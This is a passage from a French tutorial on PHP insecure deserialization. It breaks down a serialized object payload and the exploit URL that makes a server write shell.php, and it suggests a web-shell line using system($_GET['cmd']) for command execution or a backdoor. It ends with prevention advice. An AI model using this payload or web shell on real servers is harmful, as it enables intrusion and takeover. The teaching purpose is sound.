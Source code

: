 Si on consifère le payload suivant:

    data=O:6:"attack":3:{s:4:"file";s:9:"shell.php";s:4:"data";s:19:"<?php phpinfo(); ?>";}
Il représente:
* **data** correspond à `$_GET['data']`
* **O:6:"attack"** est le nom de la classe utilisée précédé par le nombre de caractères du nom de la classe
* **:3:** est le nombre de paramètre de l'objet : `$file`, `$data` et `;` de fin de ligne

Il est indispensable d'avoir un nombre de paramètre de 3 ici, le `;` compte, sinon l'exploit ne fonctionnera pas. 
Puis nous avons la composition de l'objet:
* **s:4:"file"** premier paramètre
* **s:9:"shell.php"** valeur du premier paramètre, donc le nom du fichier
* **s:4:"data"** second paramètre
* **s:19:"<?php phpinfo(); ?>"** valeur du second paramètre, ici le contenu est le script php appelant `phpinfo` qui sera donc envoyé dans `data` (et donc dans file)

Le nombre de caractère est primordial pour faire fonctionner l'exploit. La précision est la clé.

On lance l'exploit:

    http://domain.com/deserialization_attack.php?data=O:6:"attack":3:{s:4:"file";s:9:"shell.php";s:4:"data";s:19:"<?php phpinfo(); ?>";}
On peut observer la création sur le server dans la partie accessible du fichier `shell.php` qui si il est appelé, affichera le résultat de la fonction `phpinfo()` et donc la configuration du serveur. On peut facilement imaginer qu'en injectant à la place ce code `<?php system($_GET['cmd']); ?>` nous avons possibilité de mettre en place une injection de commande, ou installer une backdoor.

## Prévention
Pour un flux dont nous maîtrisons le contenu, passer par un format d'échange type JSON, en php par exemple avec les fonctions `json_decode()` et `json_encode()`.

Si l'entrée peut venir de l'extérieur, penser à contrôler l'intégrité des données. En php par exemple avec la fonction `hash_hmac()`.

## Liens
* https://www.securityinsider-wavestone.com/2019/07/techniques-outils-deserialisation-java.html
* https://riptutorial.com/fr/php/example/14674/problemes-de-securite-avec-unserialize
* https://www.exit.wtf/vrd/2019/04/04/Insecure_Deserialization.html
* https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Deserialization_Cheat_Sheet.md